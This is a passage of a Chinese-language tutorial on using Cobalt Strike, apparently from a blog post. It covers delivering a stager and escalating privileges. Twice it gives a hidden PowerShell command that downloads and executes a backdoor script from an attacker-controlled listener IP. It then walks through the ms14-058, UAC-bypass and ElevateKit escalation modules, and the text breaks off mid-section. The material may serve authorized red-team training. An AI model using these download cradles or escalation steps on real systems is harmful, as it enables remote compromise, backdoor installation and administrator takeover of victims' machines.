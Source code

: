 ```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.107:80/a'))"
```

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXcPR4JhP9ENKr19U3nNia26lgYNICKPVDFOUjMgPRC5KV3YGqzGkLEog/640?wx_fmt=png)

在目标机器上执行这段代码，就会从服务器上下载后门文件，主机就会成功上线。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXfgNSD5iczCEOKeT4ayNAVgyj65rQjlOSwI0ZMIcY1u00I403eibHCfibA/640?wx_fmt=png)

**三、权限提升**

当获取的当前权限不够的时候，可以使用提权模块。

右键点击需要提权的会话，点击 Access->Elevate。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXd7UN78iaTZpfDOGcs8dWE8T3BCl62ic8mjvqJStNBmdzmc4wNPtcGdew/640?wx_fmt=png)

Cobalt Strike 默认有三个提权 payload 可以使用，ms14-058、uac-dll、uac-token-duplication。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXVMoUbbfH1on6Ph0ficucCdfbQviaTC3FFRK9ofm20VEalK2OOI85qfYA/640?wx_fmt=png)

我们也可以自己加入一些提权脚本进去。在 Github 上有一个提权工具包，使用这个提权工具包可以增加几种提权方法：https://github.com/rsmudge/ElevateKit 。我们下载好该提权工具包后点击 ->Cobalt Strike->Script Manager，点击 load。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjX3h69vcrKRkYaTyIrlFXfkYIBnkDkEyENKYlQCVBiaEYibylqqO7AViaBg/640?wx_fmt=png)

选择刚刚下载好的 elevate-cna 文件，点击 load 导入即可。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXc1A6edZzruUm0Vpl3OhmuibN5NibR20AAEe7Ru1ZZ1WrO1BunksldyiaA/640?wx_fmt=png)

### **1、BypassUAC**

UAC 是微软在 Windows Vista 以后版本引入的一种安全机制，通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。

在 3.X 版本的 Cobalt Strike 中默认集成该模块。

powershell.exe -nop -w hidden -c “IEX ((new-object net.webclient).downloadstring(‘http://192.168.123.183:80/a‘))”

使用步骤如下：

直接在命令行输入 bypassuac，选择对应的监听器即可。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjX68KOSHXst46w77dsJEZJuCcnH1ULlRO4GFgowFfApGWiaTHKKdhFckA/640?wx_fmt=png)

提权成功后，会返回一个带有 * 号的会话，* 表示具有管理员权限。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXLQQJic26veC9VYKbr3HB2AKZB66JyTd5LfEDf9JRmXsHwR5YlpYO4cQ/640?wx_fmt=png)

**2、ms14-058**

漏洞介绍和影响范围可参考：https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-058

右键点击 Access->Elevate。
